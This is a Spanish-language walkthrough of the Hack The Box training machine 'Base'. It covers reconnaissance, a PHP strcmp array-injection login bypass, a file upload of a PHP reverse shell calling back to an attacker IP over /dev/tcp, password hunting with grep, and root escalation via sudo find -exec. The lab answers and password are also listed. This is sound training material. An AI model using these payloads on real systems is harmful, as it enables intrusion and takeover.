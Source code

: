 ```yaml
---
title: Writeup base - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - base
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina base en Hack The Box.
keywords:
  - writeup base
  - hack the box base
  - resolución máquina base
  - base hack the box
  - htb base
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+2/Linux/Base)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=Trejh7Fih34)
- 🧠 **Explicación resumida**: 

---

#veryeasy #linux #nmap #ping #arbitraryfileupload #whatweb #arrayinjection #cat #strings #burpsuite #tratamientotty #sudo-l #grep 

-----
# Guided Mode

1)¿Qué dos puertos TCP están abiertos en el host remoto?
	22,80

2)¿Cuál es la ruta relativa en el servidor web para la página de inicio de sesión?
	/login/login.php

3)¿Cuántos ficheros hay en el directorio «/login»?
	3

4)¿Cuál es la extensión de un archivo swap?
	.swp
	
5)¿Qué función PHP se utiliza en el código backend para comparar el nombre de usuario y la contraseña enviados por el usuario con el nombre de usuario y la contraseña válidos?
	strcmp()

6)¿En qué directorio se almacenan los archivos cargados?
	\_uploaded

7)¿Qué usuario existe en el host remoto con un directorio home?
	john

8)¿Cuál es la contraseña del usuario presente en el sistema?
	thisisagoodpassword

9)¿Cuál es la ruta completa del comando que el usuario john puede ejecutar como usuario root en el host remoto?
	/usr/bin/find

10)¿Qué acción puede utilizar el comando find para ejecutar comandos?
	exec

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.95.184
nmap -p- --open -vvv --min-rate 5000 -sS -n -Pn 10.129.95.184 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.95.184 -oN target
```


![[Base1.png]]
![[Base2.png]]
*TTL:* Maquina linux
*Puertos:*
	`22`SSH
	`80`HTTP

--------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.95.184/
nmap --script http-enum -p80 10.129.95.184 -oN webScan
```
![[Base3.png]]![[Base4.png]]
Nos informa que es un apache, tambien el dominio base.htb

-------
# [[Array Injection]]
Entramos a la parte de login y vemos que esta dentro de un directorio /login

![[Base7.png]]
Asi que vamos a ese directorio y descargamos el archivo .swp(Explicado en notas que son los .swp)
![[Base6.png]]
Ahora si cateamos el archivo nos va a aparecer que es un binario. Lo que vamos a hacer es abrirlo con ``nvim login.php.swp``

![[Base8.png]]
y vemos que tiene muchas cadenas que no se pueden leer
![[Base9.png]]
Asi que vamos a usar [[strings]] con el comando `strings login.php.swp > loginlimpio.txt` para sacar las cadenas legibles y el output lo voy a poner en un archivo que se llama loginlimpio.txt 
![[Base10.png]]
y ahora lo abrimos con [[cat]] usando el comando `cat loginlimpio.txt -l java` 
	Aclaracion: Si bien no es java el lenguaje, usa los colores bastante bien para separarlo y entender mejor el codigo
	
![[Base11.png]]

Despues de analizar el archivo, podemos ver en esta parte que antes de hacer la validacion del usuario y contraseña nos brinda las cookies. Y a la vez por como esta estructurada la comparacion poniendole [] para hacerlo arrays podemos romper la comparativa y ingresar con cualquier usuario y contraseña
```
header("Location: /upload.php");
  72   │             $_SESSION['user_id'] = 1;
  73   │         if (strcmp($password, $_POST['password']) == 0) {
  74   │     if (strcmp($username, $_POST['username']) == 0) {
  75   │     require('config.php');
  76   │ if (!empty($_POST['username']) && !empty($_POST['password'])) {
  77   │ session_start();
```

Interceptamos con burpsuite la peticion

![[Base12.png]]
Y cambiamos la ultima linea por `username[]=test&password[]=pass` 
Asi ganamos acceso a la pagina upload.php
![[Base13.png]]

----------
# [[Arbitrary file upload]]

Con el diccionario de seclists no vamos a encontrar nunca el directorio donde se suben los archivos que es http://10.129.95.184/_uploaded/ ya que la palabra uploaded no aparece en los diccionarios. Para poder encontrarla podemos añadir esta palabra, asi ya lo tenemos en un futuro con el comando `echo "_uploaded" | sudo tee -a /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt` que va a añadir en la ultima linea la palabra

Vamos a usar [[Gobuster]] para enumerar directorios `gobuster dir -u http://10.129.95.184/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 60`
![[Base15.png]]
### Sacamos una [[Reverse shell]] 
Creamos un archivo con nombre rever.php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'");
?>
```

Mientras estamos en escucha con [[nc -nlvp 443]], vamos a abrir el archivo desde http://10.129.95.184/_uploaded/rever.php
![[Base14.png]]
Y ya estamos adentro de la maquina

--------------
# [[Tratamiento de la TTY]]

-------
# Escalada al usuario john buscando [[Posibles archivos con contraseñas]]

Buscamos con [[grep]]`grep -riE "password|.*password|password.*" ` desde el directorio /var/www/html/login
Y encontramos la contraseña *thisisagoodpassword*
![[Base16.png]]

### Conexion por [[ssh]]
```shell
ssh john@10.129.95.184 -p 22
```
![[Base18.png]]

------
# Escalada de privilegios a root con [[Abuso de Sudo]]

Con `sudo -l` vemos que el binario /usr/bin/find se ejecuta como root
![[Base19.png]]

[Articulo de gtfobinds donde se saco esto](https://gtfobins.github.io/gtfobins/find/#suid)
```
sudo /usr/bin/find . -exec /bin/bash -p \; -quit
```
![[Base20.png]]

----------
# Notas

Los archivos `.swp` los crea Vim para guardar cambios temporales mientras editás, permitiendo recuperar datos si se cierra inesperadamente. También evitan que se edite el mismo archivo desde dos lugares a la vez. Podés borrarlos si estás seguro de que Vim ya no está usando el archivo.


---------
# Creditos
Writeup oficial HackTheBox